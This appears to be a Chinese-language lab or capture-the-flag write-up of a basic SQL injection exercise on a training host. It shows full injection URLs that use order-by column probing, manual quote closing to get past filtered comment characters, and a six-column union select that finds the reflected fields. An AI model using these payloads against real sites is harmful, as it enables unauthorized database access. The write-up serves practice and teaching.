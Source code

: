 
# 真题（基础）

**环境**

11.1.10.11 - 11.1.10.16 / 10.1.10.11 - 10.1.10.16

## 34071 - 34075、34051

### 34071 注入

![image-20241124103718796](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124103718796.png)

此题目注入点和闭合已给出

![image-20241124104041143](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124104041143.png)

尝试order by *爆列数

```
http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 4-- 

http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 4%23
```

`select * from Article where uuid = '983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 4'`

后闭合注释时发现代码对对  `--空`  和  `#`  都过滤掉了，所以不能进行双写绕过。

#### 方法一：不采用注释

采用手动单引号闭合，发现可行

`http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by ‘4`

![image-20241124105739640](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124105739640.png)

但是order by 后必须接数字，’4‘是一个字符串，所以order by在这里就不能用了

**注：**

> 查询列数
>
> order by *
>
> union select 1,2,3,4       联合查询时只有列数一致才能查询出结果

使用union select尝试，错误显示无数据报错页面，直至字段6页面加载成功。（注意列数闭合）

http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' union select '1','2','3','4','5','6

![image-20241124111300034](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124111300034.png)

接着再将uid改为一个查询不到的页面，可以看到注入点是2和3字段
